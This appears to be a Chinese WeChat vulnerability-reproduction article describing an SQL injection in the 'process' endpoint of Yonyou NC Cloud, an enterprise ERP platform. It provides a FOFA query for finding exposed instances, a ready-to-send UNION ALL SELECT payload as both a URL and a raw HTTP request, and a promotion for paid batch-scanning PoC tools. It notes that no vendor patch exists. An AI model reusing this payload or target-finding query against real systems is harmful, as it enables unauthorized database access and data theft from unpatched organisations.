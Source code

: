 #  用友NC process接口存在SQL注入漏洞 附POC   
2024-11-26更新  南风漏洞复现文库   2024-11-26 13:39  
  
免责声明：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。  
该文章仅供学习用途使用。  
## 1. 用友NC简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
用友网络是全球领先的企业与公共组织软件、云服务、金融服务提供商。提供营销、制造、财务、人力等产品与服务，帮助客户实现发展目标，进而推动商业和社会进步。  
## 2.漏洞描述  
  
用友 NC Cloud，大型企业数字化平台， 聚焦数字化管理、数字化经营、数字化商业，帮助大型企业实现 人、财、物、客的全面数字化，从而驱动业务创新与管理变革，与企业管理者一起重新定义未来的高度。为客户提供面向大型企业集团、制造业、消费品、建筑、房地产、金融保险等14个行业大类，68个细分行业，涵盖数字营销、智能制造、财务共享、数字采购等18大解决方案，帮助企业全面落地数字化。用友NC process接口存在SQL注入漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
用友NC Cloud  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3ZmdgibpWB775CPuMmVQ6r5b82YhVsxUhxBuABlbWmB1qoKIfNInkrl8t6YbiaygiakKXqsmaIgT0sww/640?wx_fmt=png&from=appmsg "null")  
  
用友NC process接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
body="/Client/Uclient/UClient.exe"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/portal/pt/task/process?pageId=login&id=1&pluginid=1%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CHR(113)||CHR(118)||CHR(98)||CHR(118)||CHR(113)||CHR(113)||CHR(107)||CHR(98)||CHR(106)||CHR(113),NULL,NULL,NULL,NULL,NULL,NULL%20FROM%20DUAL--%20  
  
漏洞数据包：  
```
GET /portal/pt/task/process?pageId=login&id=1&pluginid=1%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CHR(113)||CHR(118)||CHR(98)||CHR(118)||CHR(113)||CHR(113)||CHR(107)||CHR(98)||CHR(106)||CHR(113),NULL,NULL,NULL,NULL,NULL,NULL%20FROM%20DUAL--%20 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZmdgibpWB775CPuMmVQ6r5botwH7RlFBJ7VddMCQStVtNPXhYZAible7KFNqBHN8412HFeQicXcwAuQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZmdgibpWB775CPuMmVQ6r5bM7CtiaPKOdic4B5VzbTibtpNydoJrJGGWT3Uib2cxrzib9huNhNOEbX2ZQw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3ZmdgibpWB775CPuMmVQ6r5bUibp6gVk2oIicibhdnyjxXdCdGYzbzDC8YjPBiaEerEgtyuzFZ2uN544UQ/640?wx_fmt=png&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZmdgibpWB775CPuMmVQ6r5bUf3ibasScgibI64OgzCyLo6t5QsGZ4hMTyqPJxBBiadHtKDkn7HAyFkicg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZmdgibpWB775CPuMmVQ6r5b8GyPLO5MemzbCAmgqnsHRj5PUo9ax6IYv2kWhAgDLa9icP8E4hRohLA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZmdgibpWB775CPuMmVQ6r5biaD4gtvVZHtcp8qhpdtUmglnQBAE4yGbhsKgm54hR1iaw6tnu81icVYRA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZmdgibpWB775CPuMmVQ6r5bFVdBEFwfGNOz8gsRmj7oNibnjmD62ichtkIzHILG7EicrntcbSTiaLqMZQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
厂商尚未提供漏洞修复方案，请关注厂商主页更新：https://www.yonyou.com/  
## 8.往期回顾  
  
[宏景HCM uploadLogo.do接口存在任意文件上传漏洞 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487823&idx=1&sn=b199f8958061b41143c57569ecbb7973&scene=21#wechat_redirect)  
  
  
[用友YonBIP yonbiplogin接口存在任意文件读取漏洞 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487775&idx=1&sn=05404cfc4ffbf12817b257bef2725440&scene=21#wechat_redirect)  
  
  
  
  
